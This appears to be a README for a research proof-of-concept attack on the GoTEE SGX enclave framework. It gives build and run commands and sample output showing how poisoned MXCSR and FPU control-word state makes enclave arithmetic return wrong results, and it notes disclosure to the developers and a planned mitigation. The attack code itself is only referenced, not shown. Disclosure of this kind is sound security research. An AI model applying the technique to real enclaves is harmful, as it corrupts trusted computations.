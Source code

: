 # Proof of concept attack on GoTEE

## Attack Description

The attack is described in more detail in the gotee-fpu fork of the original GoTEE repository. We added additional information on how to execute the attack in `gotee-fpu/example/hello-world/`. The attack itself is contained in the assembly file `gotee-fpu/src/gosec/assembly_amd64.s` where the MXCSR and FPUCW are poisoned manually.

## Install GoTEE

```bash
$ sudo apt-get -yqq install golang
$ cd gotee-fpu
$ go get github.com/aghosn/serializer
$ PATH=$PATH:$HOME/go/bin
$ sudo make
```

## Build and run example attack enclave

We provide a hello-world sample that executes a print from both the untrusted and trusted domains.

Example output showcasing an example run with and without FPU poisoning in an
untrusted domain and enclave, respectively. Notice the faulty result for
`VADDPD` when poisoning the denormals-as-zero MXCSR flag:

```
$ PATH=$PATH:$HOME/go/bin
$ cd example/hello-world/
$ make
$ SIM=1 ./main
From an untrusted domain:
Hello World!
[ENTRY] Control Word: 0x37f
[ENTRY] MXCSR: 0x1fa0

Add(1,2) is 3
[EXIT] Control Word: 0x37f
[EXIT] MXCSR: 0x1fa2
--
From a trusted domain:
[DEBUG] loading the program in simulation.
Cooprt at 0xc4200aa120
Cooprt.Ecall 0xc420080150, Cooprt.Ocall 0xc4200801c0
Unsafe allocation: 7fb2607cd000, size: 1f4000
[DEBUG-INFO] wrapper at 0xc4200c7880
{base: 40000000000, siz: 1000000000, mhstart: 400001ae000, mhsize: 7ffffff}
stack: 4000016f000, ssiz: 8000, tcs: 40000178000, msgx: 40000150000, tls: 40000151000
stack: 4000017f000, ssiz: 8000, tcs: 40000188000, msgx: 40000152000, tls: 40000153000
stack: 4000018f000, ssiz: 8000, tcs: 40000198000, msgx: 40000154000, tls: 40000155000
stack: 4000019f000, ssiz: 8000, tcs: 400001a8000, msgx: 40000156000, tls: 40000157000
Hello World!
[ENTRY] Control Word: 0x1f7f
[ENTRY] MXCSR: 0x1fc0

Add(1,2) is 0
[EXIT] Control Word: 0x1f7f
[EXIT] MXCSR: 0x1fc0
```

Alternatively, to execute the example attack on real SGX hardware, simply proceed as follows:

```
$ ./main
From an untrusted domain:
Hello World!
[ENTRY] Control Word: 0x37f
[ENTRY] MXCSR: 0x1fa0

Add(1,2) is 3
[EXIT] Control Word: 0x37f
[EXIT] MXCSR: 0x1fa2
--
From a trusted domain:
Hello World!
[ENTRY] Control Word: 0x1f7f
[ENTRY] MXCSR: 0x1fe0

Add(1,2) is 0
[EXIT] Control Word: 0x1f7f
[EXIT] MXCSR: 0x1fe0
```

## Disclosure and mitigation

We reported this issue to the GoTEE developers in <https://github.com/epfl-dcsl/gotee/issues/3>. The issue will be mitigated with a full `xrstor` on enclave entry.
